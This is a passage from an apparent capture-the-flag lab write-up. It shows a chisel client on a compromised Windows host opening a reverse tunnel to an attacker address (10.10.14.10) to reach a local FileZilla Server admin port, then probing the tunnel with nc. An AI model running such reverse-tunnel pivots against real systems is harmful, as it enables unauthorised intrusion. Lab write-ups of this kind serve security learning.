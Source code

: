 

    c:\Windows\System32\spool\drivers\color>c.exe client 10.10.14.10:8000 R:223:localhost:14147
    c.exe client 10.10.14.10:8000 R:223:localhost:14147
    2019/10/03 17:06:26 client: Connecting to ws://10.10.14.10:8000
    2019/10/03 17:06:26 client: Fingerprint b7:e8:cd:00:71:e1:a9:ed:64:4a:99:c7:ad:b2:6d:20
    2019/10/03 17:06:26 client: Connected (Latency 31.3391ms)



If I test the tunnel with `nc`, I see that I can connect, but it's
clearly not the intended method:



    PS > nc 127.0.0.1 223
    FZS `    @       ~   You appear to be behind a NAT router. Please configure the passive mode settings and forward a range of ports in your router.D   Warning: FTP over TLS is not enabled, users cannot securely log in.
       à    ::15┴  Z    z╒░=PN(000133)- (not logged in) (::1)> Connected on port 21, sending welcome message...J   z╒░=PN(000133)- (not logged in) (::1)> 220-FileZilla Server 0.9.60 betad   z╒░=PN(000133)- (not logged in) (::1)> 220-written by Tim Kosse (tim.kosse@filezilla-project.org)Y   z╒░=PN(000133)- (not logged in) (::1)> 220 Please visit https://filezilla-project.org/   Å   9   z╒░hƒQ(000133)- (not logged in) (::1)> USER superadminN   z╒░hƒQ(000133)- (not logged in) (::1)> 331 Password required for superadmin   &       
    7   z╒ ┼=U(000133)- (not logged in) (::1)> PASS ********J   z╒ ┼=U(000133)- (not logged in) (::1)> 530 Login or password incorrect!7    z╒ ┼=U(000133)- (not logged in) (::1)> disconnected.   à      "       



### FileZilla Server

I'll download [FileZilla
Server](https://filezilla-project.org/download.php?type=server) and
install it. I'll choose to tell it to start manually each time it asks
me, as I don't want to run an FTP server on my Commando host.

Now I'll open it, and it prompts me for a host to connect to:

![](/img/1570124022070.png)
